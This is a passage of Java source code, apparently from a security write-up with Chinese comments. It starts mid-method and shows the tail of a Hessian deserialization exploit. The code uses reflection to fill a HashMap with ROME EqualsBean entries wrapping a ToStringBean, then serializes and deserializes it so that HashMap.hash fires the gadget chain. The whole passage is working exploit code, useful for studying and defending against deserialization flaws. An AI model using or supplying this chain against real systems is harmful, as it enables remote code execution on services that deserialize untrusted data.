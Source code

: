 ```java

        // 反序列化时 HashMap.hash 会被调用, 触发 EqualsBean.hashCode -> EqualsBean.beanHashCode.
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);

        // HashMap.put -> HashMap.putVal -> HashMap.hash
        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, equalsBean, equalsBean, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, equalsBean, equalsBean, null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian 序列化数据
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian 序列化数据为: " + new String(serializedData, 0, serializedData.length));

        // Hessian 反序列化数据
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```
